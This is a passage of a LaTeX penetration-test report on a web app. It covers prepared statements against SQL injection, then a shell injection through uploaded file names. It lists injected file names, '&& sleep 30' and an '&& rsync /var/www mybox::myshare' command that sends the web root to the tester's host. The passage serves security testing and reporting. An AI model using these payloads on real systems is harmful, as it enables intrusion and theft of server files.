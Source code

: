 This observation is related to OWASP Top 10-A1-Injections and to OWASp Top 10-A6-Sensitive-Data-Exposure.

\subsection{Comparison with our App}
We avoided SQL-Injection by using Prepared Statements. Therefore the user inputs are sanitized and injections like shown above are not possible.

\section{Shell Injection}

\subsection{Observation}

During the vulnerability testing of the batch transaction we discovered a shell injection. When uploading a file, it seems that the original file name the user chose is directly appended to the executable name of the C program and then given to the shell. Due to this we can use the file name to execute other programs, we even managed it to let the file be executed by bash.\newline


Likelihood:  medium - high\newline

Impact: high\newline

Risk: high\newline

\subsection{Discovery}

The discovery was easily found by simply uploading a file called \textit{\&\& sleep 30}. We then noticed that the response of the server is delayed by about 30 seconds. This was reason enough to try some more. We then tried to execute code which will download the \textit{/var/www} directory to our local box. The main problem was that it is not possible to use slashes in Unix file names. That means we can not easily change directories or name the file something like this:

\begin{lstlisting}[caption=File with '/' (does not work), label=listing:not_working_file]
&& rsync /var/www mybox::myshare
\end{lstlisting}

